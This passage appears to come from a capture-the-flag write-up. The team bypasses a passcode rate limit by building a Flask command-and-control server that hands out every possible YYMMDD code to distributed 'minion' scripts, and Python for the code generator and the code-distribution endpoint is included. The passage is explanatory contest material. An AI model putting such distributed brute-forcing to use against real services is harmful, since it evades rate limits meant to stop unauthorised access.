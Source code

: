 This was definitely not the intended solution, according to the author. But we were able to effectively bypass the long rate limit of one request every 10 seconds. 

### Building a Small C2 Server

After joking with other team members about going through with this, we started to seriously consider it. 

The main idea would be to have a command and control server that generates all possible codes from the `YYMMDD` format and then hands out one code to a "minion" script running on a different machine to try the passcode. This should support many minions and should be able to detect when a passcode was successful. In the event that a working passcode was found, the C2 needed to be able to order all of the minions to shut down to prevent further passcode trials. 

To generate all possible passcodes, the following function was used:

```python
codes = []

def gen_codes():
    # YYMMDD
    global codes
    years = [str(i).zfill(2) for i in range(100)]
    months = [str(i).zfill(2) for i in range(1,13)]
    days = [str(i).zfill(2) for i in range(1,32)]
    codes = [''.join(x) for x in list(product(years,months,days))]
    logging.info(f"Generated {len(codes)} possible codes")
```

The C2 would be a simple Flask server that contained endpoints each minion could hit to ask for a code or report the status of a passcode trial. 

Below is the code for the endpoint that distributes codes from the generated list:

```python
@app.route('/<uuid>/giveCode',methods=["GET"])
def give_code(uuid):
    global knownMinions
    if uuid not in knownMinions.keys():
        abort(403)
    global codes
    global workingCodes
    toGive = codes.pop()
    # add to workingCodes along with a timestamp.
    # this way, we can check to see if any working codes have been out for too long, indicated failure of the minion script
    while toGive in workingCodes.keys():
        toGive = codes.pop() # lock-ish
    workingCodes[toGive] = {uuid: arrow.utcnow()}
    return jsonify({"code": toGive, "cmd":"try"})
```

Each minion will request (with their own UUID), /giveCode and they will receive the next code in the list. The `cmd` key is just to specify what the minion should do with the given information. All responses to the minions will have this `cmd` parameter. 
